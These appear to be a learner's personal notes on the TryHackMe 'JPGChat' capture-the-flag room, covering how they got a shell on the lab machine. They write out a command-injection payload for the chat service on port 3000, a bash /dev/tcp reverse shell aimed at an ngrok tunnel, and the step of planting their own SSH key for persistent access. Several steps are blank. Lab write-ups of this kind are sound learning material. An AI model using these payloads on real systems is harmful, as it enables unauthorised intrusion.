

**JPGChat**

This is not a full wireup for this room, this is just my notes about it because I had multiple problems when tried to get  using revshells etc.

After doing the NMAP on the machine and found `ssh` open and a custom port of `3000` open, I tried to netcat to port `3000`, I've written `[REPORT]` and added my payload `am'; /bin/bash; #` why `/bin/bash` not revshell? that what I was struggling with, I have no idea why but I was not able to do any kind of connection to my tunnel (ngrok)

I've setup my ngrok using `ngrok tcp 5000` and open my nc like this `nc -lnvp 5000` and sent my revshell payload like this `am;bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14411 0>&1;` and nope.. nothing appeard, this was 1 failure out of 20+ failures using many kind of revshell payloads, then I found this [writeup](https://www.aldeid.com/wiki/TryHackMe-JPGChat) which gave me the idea of spawning a local bash using just `/bin/bash` instead of my revshell payload

Then i stabiliezed my bash a little using `python3 -c "import pty; pty.spawn('/bin/bash')"` then added my ssh keys to get a proper shell using ssh as follows:

- Generated my ssh rsa keys using `ssh-keygen -t rsa` saved it on default path and put my passphrase
- Copy the output found in `~/.ssh/id_rsa.pub` and put it on the vuln machine using the following
    - 
    - Due to unstable shell we have to use a tricky way to pipeline our input, once I pasted my rsa key git Enter then type `EOF` to stop the file inputing

- Now connect using ssh `ssh -vvv wes@XXXXX` the `-vvv` for verbosity to know what's going on under the hood
- Aaaaand connected 

 Now let's do the **Privilege Escalation**

- Once again we can't connect to my netcat .…
- 
- Sooo, we use do it on the machine's local 
- 

Still got no idea why this happened, was it from me? from the machine? I have no idea yet.. it's not the first time I create revshells/RCE using this technique but this time no worky no worky :\

You can contact me using my social media/discord accounts on my Github account if you have any idea why this happened :)

Discord: `AyhamAlali#0001`